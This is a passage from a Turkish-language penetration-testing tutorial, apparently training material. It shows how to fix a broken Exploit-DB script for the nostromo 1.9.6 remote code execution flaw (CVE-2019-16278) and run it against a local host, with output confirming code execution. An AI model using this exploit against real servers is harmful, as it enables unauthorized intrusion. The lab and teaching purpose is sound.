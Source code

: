 İnternetten indirdiğiniz exploitler her zaman ilk seferde çalışmayabilir. Betiğin yazıldığı programlama dilini anlamak faydalıdır; böylece gerekirse hataları düzeltebilir veya değişiklikler yapabilirsiniz. Exploit-DB’deki pek çok betik, sizin bazı düzenlemeler yapmanızı bekler.

Neyse ki, bu hata, yorum satırı olması gereken bir satırdan kaynaklanıyor. Bu yüzden düzeltmesi kolay:

```python
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

cve2019_16278.py  # This line needs to be commented.

#!/usr/bin/env python
```

Bu düzeltmeyi yaptıktan sonra programı tekrar çalıştıralım:

```bash
user@linux$ python2 47837.py 127.0.0.1 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Fri, 03 Feb 2023 04:58:34 GMT
Server: nostromo 1.9.6
Connection: close

uid=1001(_nostromo) gid=1001(_nostromo) groups=1001(_nostromo)
```

İşte oldu! Uzaktan kod çalıştırma (RCE) elde ettik. Şunu unutmayın: Çoğu betik, çalıştırmak için hangi parametreleri vermeniz gerektiğini size söyler. Exploit geliştiricileri, nasıl kullanılacağını anlamanız için yüzlerce satır kodu okumanızı nadiren bekler.
